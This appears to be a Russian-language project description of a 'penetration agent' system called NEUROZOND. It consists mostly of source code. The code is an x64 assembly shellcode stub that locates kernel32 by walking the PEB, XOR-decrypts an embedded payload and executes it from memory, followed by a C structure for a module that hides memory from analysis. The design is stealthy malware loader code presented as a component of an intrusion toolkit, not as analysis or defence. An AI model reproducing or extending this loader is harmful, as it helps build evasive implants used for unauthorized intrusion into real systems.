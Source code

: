 Проект NEUROZOND — система миниатюрных агентов проникновения (2025)
Архитектура системы
1. StealthStub — Минимальный ассемблерный стаб (500 байт)

; x64 Shellcode Стаб-загрузчик (MASM синтаксис)
.code

StealthStub PROC PUBLIC
    ; Сохраняем контекст
    push rbp
    mov rbp, rsp
    sub rsp, 32                     ; Выделяем стек для локальных переменных
    
    ; Находим базу kernel32.dll через PEB обход
    xor rdi, rdi                    ; Обнуляем rdi
    mov rdi, gs:[60h]               ; Указатель на PEB
    mov rdi, [rdi + 18h]            ; Указатель на PEB_LDR_DATA
    mov rdi, [rdi + 20h]            ; Первый элемент в InMemoryOrderModuleList
    mov rdi, [rdi]                  ; Второй элемент (kernel32.dll)
    mov rdi, [rdi + 20h]            ; Базовый адрес kernel32.dll
    
    ; Получаем адрес GetProcAddress и LoadLibraryA
    mov rbx, rdi
    ; [Хеш-поиск функций...]
    
    ; Расшифровываем полезную нагрузку с помощью XOR
    lea rsi, [payload]
    mov rcx, payload_size
decrypt_loop:
    xor byte ptr [rsi], 41h         ; XOR ключ 0x41
    inc rsi
    loop decrypt_loop
    
    ; Запускаем основной загрузчик из памяти
    call [payload]
    
    ; Завершаем работу
    add rsp, 32
    pop rbp
    ret
StealthStub ENDP

; Шифрованная полезная нагрузка
payload db 100h DUP(0)
payload_size equ $ - payload

END

2. MemoryHiding — Модуль защиты памяти от анализа
// Техники защиты и сокрытия в памяти
typedef struct _MEMORY_PROTECTION {
    PVOID MemoryRegion;
    SIZE_T RegionSize;
    DWORD OriginalProtection;
    DWORD CurrentProtection;
    BYTE* EncryptionKey;
    SIZE_T KeySize;
} MEMORY_PROTECTION, *PMEMORY_PROTECTION;
